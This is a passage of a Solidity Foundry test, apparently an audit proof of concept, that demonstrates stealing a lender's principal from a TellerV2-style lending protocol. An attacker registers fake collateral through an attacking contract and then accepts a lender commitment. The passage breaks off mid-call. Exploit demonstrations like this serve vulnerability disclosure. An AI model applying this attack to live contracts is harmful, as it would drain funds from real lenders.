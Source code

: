 ```solidity
        collateralToken = new TestERC20Token("Collateral Token", "COLL", 1e18, 18);
    }

    function testStealLenderPrincipal() public {
        LenderCommitmentForwarder.Commitment memory commitment = LenderCommitmentForwarder.Commitment({
            maxPrincipal: 1e18,
            expiration: type(uint32).max,
            maxDuration: 365 days,
            minInterestRate: 0,
            collateralTokenAddress: address(collateralToken),
            collateralTokenId: 0,
            maxPrincipalPerCollateralAmount: 1e18*1e18,
            collateralTokenType: LenderCommitmentForwarder.CommitmentCollateralType.ERC20,
            lender: lender,
            marketId: 0,
            principalTokenAddress: address(principalToken)
        });

        address[] memory borrowers = new address[](0);

        vm.startPrank(lender);
        uint256 commitmentId = lenderCommitmentForwarder.createCommitment(commitment, borrowers);
        tellerV2.approveMarketForwarder(0,address(lenderCommitmentForwarder));
        principalToken.approve(address(tellerV2),1e18);
        vm.stopPrank();

        /* -----BEGIN ATTACK----- */

        // attacker needs flash loan of the collateral to fake balance when commiting collateral
        collateralToken.transfer(attacker,1e18);

        vm.startPrank(attacker);
        // find out next bid id
        uint256 nextBidId = tellerV2.bidId();

        // do necessary approvals
        tellerV2.approveMarketForwarder(0,address(lenderCommitmentForwarder));
        collateralToken.approve(address(collateralManager),1);

        // create attacking contract
        AttackerContract attackerContract = new AttackerContract(collateralManager,collateralToken,nextBidId);
        
        // setup hook to attacking contract
        Collateral memory collateral = Collateral({
            _collateralType: CollateralType.ERC20,
            _amount: 1,
            _tokenId: 0,
            _collateralAddress: address(attackerContract)
        });
        // first exploit on commitCollateral; register fake collateral
        collateralManager.commitCollateral(nextBidId, collateral);

        // setup done, commence attack
        lenderCommitmentForwarder.acceptCommitment(
            commitmentId,
            1e18, // principal amount
            1e18, // collateral amount
            0,
            address(collateralToken),
            10_00,
            108 days
```